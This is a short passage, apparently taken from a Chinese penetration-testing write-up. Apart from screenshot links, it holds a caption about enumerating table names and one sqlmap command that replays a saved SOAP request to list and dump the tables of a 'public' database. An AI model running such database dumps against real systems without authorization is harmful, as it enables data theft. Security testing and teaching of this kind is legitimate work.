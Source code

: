 [![](assets/1705886707-d6c32fbf97a2d39467c7a1e96f0cedfb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120504-176e6c54-b749-1.png)  
跑表名

```bash
sqlmap -r soap.txt -D public --tables --dump
```

[![](assets/1705886707-4041816b1b8ac6e40748fd5e3234ac29.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120527-24a3fbf0-b749-1.png)  
[![](assets/1705886707-f8263155d22362c1fe95c8b5ece922ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120534-28d9c858-b749-1.png)
